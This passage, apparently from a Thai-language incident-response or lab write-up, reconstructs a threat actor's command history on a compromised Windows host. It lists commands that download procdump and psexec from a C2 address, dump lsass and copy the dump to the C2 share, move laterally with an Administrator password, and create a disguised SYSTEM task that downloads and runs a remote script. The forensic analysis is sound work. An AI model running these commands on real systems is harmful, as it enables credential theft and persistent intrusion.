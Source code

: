 ![234575b8cd7bc95a3f32a0ccc4264766.png](/resources/234575b8cd7bc95a3f32a0ccc4264766.png)

ซึ่งหลังจากนั้นก็ได้มีการเอา `psexec64.exe` มาด้วยซึ่ง without a doubt แล้วหละว่า Admin ถูก compromised ไปแล้ว

```
Admin
```

ซึ่งเมื่อย้อนกลับไปดูตั้งแต่เริ่มก็จะพบว่า threat actor ได้รัน
- `hostname` : แสดง hostname 
- `whoami` : ฉัน เป็น ใคร?
- `"netsh" interface tcp show global` : แสดงการตั้งค่า TCP
- `cmd.exe /C powershell wget http://10.64.5.73/procdump.exe -O C:\Users\Admin\procdump.exe` : ดึง process dump มาจาก C2
- `cmd.exe /C powershell wget http://10.64.5.73/psexec64.exe -O C:\Users\Admin\psexec64.exe` : ดึง psexec มาจาก C2
- `cmd.exe /C dir C:\Users\Admin` : ไปยังโฟลเดอร์ที่ drop ไฟล์มา
- `cmd.exe /C C:\Users\Admin\procdump.exe -accepteula -ma lsass C:\lsass.dmp` : dump lsass process ซึ่งสามารถเอาไป crack หา hash / weak password ได้
- `cmd.exe /C copy C:\lsass.dmp \\10.64.5.73\share` : copy lsass dump ไปยัง C2 share drive
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c whoami` : หลังจากได้ password ของ Administrator มาแล้วก็ใช้ psexec run `whoami` ในสิทธิ์ของ Administrator บนเครื่อง 10.73.3.50
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c ipconfig` : รัน `ipconfig` บนเครื่อง 10.73.3.50
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c schtasks /F /create /RU SYSTEM /tn WindowsUpdate /sc DAILY /st 00:00 /tr "powershell iex ((New-Object System.Net.WebClient).DownloadString('http://10.64.5.73/persist.ps1'))"` : สร้าง Task "WindowsUpdate" ที่จะรันด้วยสิทธิ์ SYSTEM ทุก ๆ เที่ยงคืนเพื่อดาวน์โหลดและรัน persistence script จาก C2 server